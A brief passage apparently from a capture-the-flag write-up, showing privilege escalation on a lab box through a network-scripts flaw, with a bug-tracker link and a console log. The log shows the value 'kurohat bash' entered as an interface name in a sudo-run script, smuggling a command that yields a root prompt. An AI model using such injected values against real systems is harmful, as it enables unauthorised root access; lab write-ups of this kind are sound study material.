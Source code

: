```bash
```
- google `network-scripts privilege escalation`
- https://bugzilla.redhat.com/show_bug.cgi?id=1697473
```console
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
kurohat bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
yest
interface BOOTPROTO:
test
[root@networked network-scripts]#
```
boom
